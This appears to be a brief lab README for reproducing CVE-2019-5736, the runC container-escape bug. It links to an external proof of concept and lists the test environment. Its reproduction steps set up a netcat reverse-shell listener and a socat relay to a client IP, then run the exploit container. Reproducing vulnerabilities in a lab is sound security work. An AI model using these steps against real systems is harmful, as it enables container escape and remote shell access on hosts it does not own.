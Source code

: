 # CVE-2019-5736

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-5736>


## PoC / Exploit

* <https://github.com/twistlock/RunC-CVE-2019-5736> 


## Environment used

* Ubuntu 18.04.3 LTS
* Docker-CE 18.09.1


## Reproduction
* Client terminal (reverse shell)
```shell script
nc -nvlp 2345
```
* Host terminal
```shell script
bash script.sh
socat TCP-LISTEN:2345,fork TCP:<Client IP>:2345
sudo docker run cve-2019-5736 2>/dev/null
```
 
